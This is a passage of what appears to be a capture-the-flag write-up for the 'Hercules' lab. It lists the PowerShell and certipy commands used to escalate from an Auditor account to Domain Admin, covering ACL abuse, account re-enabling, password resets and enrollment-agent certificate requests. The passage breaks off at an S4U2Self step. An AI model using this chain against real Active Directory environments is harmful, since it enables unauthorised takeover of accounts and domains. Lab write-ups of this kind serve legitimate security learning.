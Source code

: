 
## ⚙️ 4. From Visibility to Control – Example AD Attack Chain  

Below is the **exact chain** executed in the Hercules CTF to move from a limited Auditor account to full Domain Admin.

### Step 1 · Auditor → OU Control
```powershell
Add-DomainObjectAcl -TargetSearchBase "OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" `
   -PrincipalIdentity "Auditor" -Rights FullControl -Verbose
```

### Step 2 · Enable & Reset a User
```powershell
Set-DomainObject -Identity "fernando.r" -Set @{useraccountcontrol=512}
Set-DomainUserPassword -Identity "fernando.r" `
   -AccountPassword (ConvertTo-SecureString 'Password678!' -AsPlainText -Force)
```

### Step 3 · Gain Certificate‑Based Access (Certipy Integration)

```bash
certipy-ad req -k -upn fernando.r@hercules.htb \
  -dc-ip 10.129.242.196 -ca CA-HERCULES \
  -template EnrollmentAgentOffline -application-policies 'Client Authentication' -dcom
```

_Then use that cert to request a user cert “on behalf of” another domain user._

---

### Step 4 · ashley.b: Group Control → Enable `iis_administrator`

```powershell
Enable-ADAccount -Identity "CN=iis_administrator,OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb"
Set-ADAccountPassword -Identity "iis_administrator" `
   -NewPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Reset
```

---

### Step 5 · iis_administrator → iis_webserver$ (Computer Account)

```powershell
Set-DomainUserPassword -Identity 'iis_webserver$' -AccountPassword 'Password123!'
```

---

### Step 6 · iis_webserver$: Hash Replacement & S4U2Self
